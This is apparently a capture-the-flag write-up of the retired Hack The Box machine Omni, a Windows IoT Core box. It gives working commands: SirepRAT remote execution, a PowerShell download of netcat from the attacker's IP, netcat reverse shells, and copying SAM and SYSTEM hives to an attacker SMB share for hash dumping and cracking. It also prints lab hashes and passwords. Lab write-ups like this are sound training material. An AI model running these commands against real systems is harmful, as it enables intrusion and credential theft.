

# Omni

This is the write-up for the box Omni that got retired at the 9th January 2021.
My IP address was 10.10.14.7 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.204    omni.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/omni.nmap 10.10.10.204
```

```
PORT     STATE SERVICE VERSION
135/tcp  open  msrpc   Microsoft Windows RPC
8080/tcp open  upnp    Microsoft IIS httpd
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Windows Device Portal
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Full TCP port scan:
```
nmap -p- 10.10.10.204
```
```
PORT      STATE SERVICE
135/tcp   open  msrpc
5985/tcp  open  wsman
8080/tcp  open  http-proxy
29817/tcp open  unknown
29819/tcp open  unknown
29820/tcp open  unknown
```

## Checking HTTP (Port 8080)

The website on port 8080 needs authentication and forwards to _/authorizationrequired.htm_ when sending invalid credentials:
```
Authorization Required

This server could not verify that you are authorized to access the document requested. Either you supplied the wrong credentials (eg. incorrect password) or your browser doesn't understand how to supply the credentials required.
```

The authentication window and the Nmap scan show the basic realm as **Windows Device Portal (WDP)**.
When researching about this, there is a [documentation from Microsoft](https://docs.microsoft.com/en-us/windows/uwp/debug-test-perf/device-portal), that describes what it is:
```
The Windows Device Portal (WDP) is a web server included with Windows devices that lets you configure and manage the settings for the device over a network or USB connection (local connections are also supported on devices with a web browser).
```

In the table it shows the devices which include **WDP** and the default port 8080 is used in **Windows IoT**.
Lets check the other ports, if there is a way to interact with this operating system.

## Checking Port 29820

When researching about port 29820, the first finding is a [presentation about SirepRAT](https://www.woprsummit.org/slides-archive/SirepRAT_RCEasSYSTEMonWindowsIoTCore-WOPRSummit.pdf) which describes how to abuse **Windows IoT Core**.

The tool [SirepRAT](https://github.com/SafeBreach-Labs/SirepRAT) is on GitHub and will be used for remote code execution:
```
python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --cmd "C:\Windows\System32\hostname.exe" --v --return_output
```
```
omni
```

It executed _hostname.exe_ and proofs command execution, so PowerShell can be used to upload files.

Uploading **Netcat for Windows** to the box:
```
python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell IWR -Uri http://10.10.14.7:8000/nc64.exe -OutFile C:\nc64.exe" --v --return_output
```

Executing _nc64.exe_ to gain a reverse shell:
```
python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\nc64.exe -e powershell 10.10.14.7 9001" --v --return_output
```

After running the command, the listener on my IP and port 9001 starts a reverse shell as _omni$_ which is the device account and thus has system privileges.
```
echo $env:USERNAME

omni$
```

The home directories are not in _C:\Users_ but instead in _C:\Data\Users_.
The user flag is in the directory of _app_ and the root flag is in _administrator_ but both files are encrypted and cannot be read.

These files are encrypted with the _PSCredential_ function and it uses the credential of the users.

## Privilege Escalation

The credentials of the users are in the **SAM** and **SYSTEM** files in _C:\Windows\system32\config_.

Saving the registry keys of the files into a writable directory:
```
reg save HKLM\SYSTEM C:\SYSTEM
reg save HKLM\SAM C:\SAM
```

Starting an SMB server on our local client:
```
impacket-smbserver -smb2support Share $(pwd)
```

Copying the files from the box to our local client:
```
copy C:\SYSTEM \\10.10.14.7\Share\SYSTEM
copy C:\SAM \\10.10.14.7\Share\SAM
```

Dumping secrets out of the files with **impacket-secretsdump**:
```
impacket-secretsdump -system SYSTEM -sam SAM local
```
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a01f16a7fa376962dbeb29a764a06f00:::
(...)
DevToolsUser:1002:aad3b435b51404eeaad3b435b51404ee:1b9ce6c5783785717e9bbb75ba5f9958:::
app:1003:aad3b435b51404eeaad3b435b51404ee:e3cb0651718ee9b4faffe19a51faff95:::
```

Cracking hashes with **Hashcat**:
```
hashcat -m 1000 --user omni.hashes /usr/share/wordlists/rockyou.txt
```

The hash of the user _app_ gets cracked and the password is:
> mesh5143

These credentials can be used for the web portal on port 8080 and there it is possible to gain a reverse shell with _app_:
```
Processes --> Run command - C:\nc64.exe -e powershell 10.10.14.7 9002
```



After running the command, the listener on my IP and port 9002 starts a reverse shell as _app_.

### Decrypting Files

With the credentials of _app_, the files _user.txt_ and _iot-admin.xml_ in the directory _C:\Data\Users\app_ can be decrypted.

Getting the contents of _user.txt_:
```
$secure = Import-CliXml -Path user.txt
$secure.GetNetworkCredential().Password
```

Getting the contents of _iot-admin.xml_:
```
$secure = Import-CliXml -Path iot-admin.xml
$secure.GetNetworkCredential().Password
```
```
_1nt3rn37ofTh1nGz
```

This is the password for the _administrator_ user, which can be used to login to the web portal on port 8080 and run commands as demonstrated before:
```
Processes --> Run command --> C:\nc64.exe -e powershell 10.10.14.7 9003
```

After running the command, the listener on my IP and port 9003 starts a reverse shell as _administrator_.

Decrypting _root.txt_ in _C:\Data\Users\administrator_:
```
$secure = Import-CliXml -Path root.txt
$secure.GetNetworkCredential().Password
```
